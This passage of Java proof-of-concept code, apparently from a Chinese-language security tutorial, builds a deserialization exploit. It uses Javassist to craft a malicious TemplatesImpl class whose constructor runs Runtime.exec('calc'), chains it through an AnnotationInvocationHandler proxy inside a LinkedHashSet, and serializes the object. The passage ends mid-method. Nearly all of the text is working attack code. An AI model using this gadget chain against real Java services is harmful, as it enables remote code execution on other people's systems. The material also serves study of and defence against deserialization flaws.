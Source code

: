 ```

    //反序列化
    public static Object unserialize(final byte[] serialized) throws Exception `{`
        ByteArrayInputStream btin = new ByteArrayInputStream(serialized);
        ObjectInputStream objIn = new ObjectInputStream(btin);
        return objIn.readObject();
    `}`

    //通过反射为obj的属性赋值
    private static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception `{`
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    `}`

    //封装了之前对恶意TemplatesImpl类的构造
    private static TemplatesImpl getEvilTemplatesImpl() throws Exception `{`
        ClassPool pool = ClassPool.getDefault();//ClassPool对象是一个表示class文件的CtClass对象的容器
        CtClass cc = pool.makeClass("Evil");//创建Evil类
        cc.setSuperclass((pool.get(AbstractTranslet.class.getName())));//设置Evil类的父类为AbstractTranslet
        CtConstructor cons = new CtConstructor(new CtClass[]`{``}`, cc);//创建无参构造函数
        cons.setBody("`{` Runtime.getRuntime().exec(\"calc\"); `}`");//设置无参构造函数体
        cc.addConstructor(cons);
        byte[] byteCode = cc.toBytecode();//toBytecode得到Evil类的字节码
        byte[][] targetByteCode = new byte[][]`{`byteCode`}`;
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCode);
        setFieldValue(templates, "_class", null);
        setFieldValue(templates, "_name", "xx");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        return templates;
    `}`

    public static void main(String[] args) throws Exception `{`
        expHashSet();
//        expLinkedHashSet();
    `}`

    public static void expLinkedHashSet() throws Exception `{`
        TemplatesImpl templates = getEvilTemplatesImpl();

        HashMap map = new HashMap();

        //通过反射创建代理使用的handler，AnnotationInvocationHandler作为动态代理的handler
        Constructor ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        ctor.setAccessible(true);

        InvocationHandler tempHandler = (InvocationHandler) ctor.newInstance(Templates.class, map);

        // 创建动态代理，用tempHandler代理Templates接口，AnnotationInvocationHandler的invoke代理Templates接口的两个方法newTransformer()和getOutputProperties()
        Templates proxy = (Templates) Proxy.newProxyInstance(Poc.class.getClassLoader(), templates.getClass().getInterfaces(), tempHandler);

        LinkedHashSet set = new LinkedHashSet();
        set.add(templates);
        set.add(proxy);
        map.put("f5a5a608", templates);

        byte[] obj = serialize(set);
```
